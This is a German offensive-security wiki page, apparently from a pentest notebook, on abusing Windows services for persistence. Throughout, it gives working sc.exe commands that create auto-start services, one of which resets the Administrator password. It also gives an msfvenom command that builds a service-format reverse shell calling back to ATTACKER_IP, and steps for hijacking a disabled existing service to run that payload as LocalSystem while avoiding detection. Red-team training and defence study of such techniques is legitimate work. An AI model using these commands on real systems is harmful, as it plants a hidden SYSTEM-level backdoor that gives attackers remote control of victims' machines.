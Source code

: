 # Missbrauch von Systemdiensten (Services)

Windows-Dienste bieten eine effektive Möglichkeit zur Etablierung von Persistenz, da sie so konfiguriert werden können, dass sie im Hintergrund automatisch beim Systemstart ausgeführt werden. Angreifer können dies ausnutzen, um bei jedem Hochfahren des Zielsystems die Kontrolle zurückzuerlangen.

{% hint style="info" %}
Ein Dienst ist im Wesentlichen ein Hintergrundprozess, dessen Konfiguration bestimmt, welche ausführbare Datei verwendet wird und ob der Dienst automatisch oder manuell gestartet wird. Es gibt zwei Hauptmethoden, um Dienste für persistente Zwecke zu missbrauchen:

* **Erstellen eines neuen Dienstes**
* **Manipulation/ Modifikation eines bestehenden Dienstes**
{% endhint %}

***

## **Erstellen eines neuen Dienstes**

Ein neuer Dienst kann mit dem Befehl [sc.md](../befehle/sc.md "mention").exe eingerichtet werden. Dabei wird eine gewünschte ausführbare Datei angegeben, die automatisch beim Systemstart ausgeführt wird. Ein Beispiel zur Ausführung eines Befehls über einen neuen Dienst:

```cmd
sc.exe create RMTservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start RMTservice
```

{% hint style="info" %}
Hinweis: Zwischen `binPath=` und dem Pfad muss ein Leerzeichen stehen.
{% endhint %}

In diesem Fall wird der Administrator-Passwort-Reset beim Dienststart ausgeführt. Für eine dauerhafte Hintertür empfiehlt sich jedoch die Verwendung einer speziell erstellten Reverse Shell. Dabei sollte beachtet werden, dass Dienste eine spezielle Binärstruktur benötigen, um ordnungsgemäß vom System verwaltet zu werden.

Eine kompatible Service-Binärdatei kann mit `msfvenom` wie folgt erzeugt werden:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4448 -f exe-service -o rmt-svc.exe
```

Die generierte Datei kann anschließend auf dem Zielsystem gespeichert und über einen Dienst eingebunden werden:

```cmd
sc.exe create RMTservice2 binPath= "C:\Windows\rmt-svc.exe" start= auto
sc.exe start RMTservice2
```

Sobald der Dienst gestartet wird, wird die Reverse Shell aktiviert.

***

## **Manipulation eines bestehenden Dienstes**

Da die Erstellung neuer Dienste möglicherweise von Sicherheitstools erkannt wird, kann es sinnvoll sein, bereits vorhandene (insbesondere deaktivierte) Dienste zu modifizieren.

Zunächst kann eine Liste aller Dienste mit folgendem Befehl abgerufen werden:

```cmd
sc.exe query state= all
```

Ein Dienst, der nicht aktiv ist (z. B. `RMTservice3`), kann mit folgendem Befehl näher untersucht werden:

```cmd
sc.exe qc RMTservice3
```

Wichtige Parameter dabei sind:

* **BINARY\_PATH\_NAME** – sollte auf die eigene Payload zeigen
* **START\_TYPE** – sollte auf `AUTO_START` gesetzt sein, damit der Dienst beim Systemstart automatisch ausgeführt wird
* **SERVICE\_START\_NAME** – idealerweise `LocalSystem`, um Systemrechte zu erhalten

Durch Ändern dieser Parameter kann ein vorhandener Dienst effektiv zur Persistenznutzung umfunktioniert werden, ohne neue auffällige Spuren zu hinterlassen.

```
sc.exe config RMTservice3 binPath= "C:\Windows\rmt-svc.exe" start= auto obj= "LocalSystem"
```
